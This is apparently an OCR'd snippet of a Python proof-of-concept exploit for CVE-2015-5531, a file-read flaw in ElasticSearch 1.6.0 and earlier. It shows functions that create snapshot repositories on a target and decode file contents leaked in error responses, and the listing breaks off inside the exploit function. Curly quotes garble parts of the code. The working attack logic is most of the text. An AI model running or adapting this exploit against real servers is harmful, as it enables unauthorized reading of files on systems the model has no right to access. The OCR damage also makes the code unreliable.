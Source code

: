 
## CVE-2015-5531.py
```
#!/usr/bin/env python
# -*- coding:utf8 -*-
"""
PoC for CVE-2015-5531
Affects ElasticSearch 1.6.0 and prior
"""
import re
import sys
import json
import requests
import urllib
import argparse
import traceback
import termcolor
def colorize_red(string):
    """
    :param string:
    :return
    """
    return termcolor.colored(string, 'red')
def colorize_green(string):
    """
    :param string:
    :return:
    """
    return termcolor.colored(string, 'green')
def create_repos(base_url):
    """
    :param base_url:
    :return: None
    """
    for index, repo_name in enumerate(REPO_NAME_LST):
        
        url = "{0}{1}".format(base_url, repo_name)
        req = requests.post(url, json=DATA_REPO_LST[index])
         
        if “acknowledged” in req.json():
            print colorize_green(“repository {0}: create success”.format(repo_name))
def grab_file(vuln_url):
    “”"
    :param xplurl:
    :return:
    “”"
    
    req = requests.get(vuln_url)
    if req.status_code == 400:
        data = req.json()
        extrdata = re.findall(r’\d+’, str(data['error']))
        decoder = bytearray()
        for i in extrdata[2:]:
            decoder.append(int(i))
        print colorize_green(decoder)
def exploit(**args):
    “”"
    :param args:
    :return:
    “”"
    target = args['target']
    port = args['port']
    fpath = args['fpath'].split(‘,’)
```